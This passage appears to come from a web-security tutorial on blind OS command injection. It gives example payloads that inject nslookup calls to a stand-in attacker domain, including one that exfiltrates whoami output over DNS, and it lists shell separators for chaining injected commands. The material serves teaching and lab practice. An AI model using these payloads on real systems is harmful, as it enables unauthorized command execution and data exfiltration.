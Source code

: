 You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

```
& nslookup kgji2ohoyw.web-attacker.com &
```

This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor for the specified lookup occurring, and thereby detect that the command was successfully injected.

**LAB**

[Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)



The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This will cause a DNS lookup to the attacker's domain containing the result of the `whoami` command:

```
wwwuser.kgji2ohoyw.web-attacker.com
```

**LAB**

[Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)



## Ways of injecting OS commands

A variety of shell metacharacters can be used to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:

- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:

- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:

- \`
injected command\`
- `$(`injected command `)`
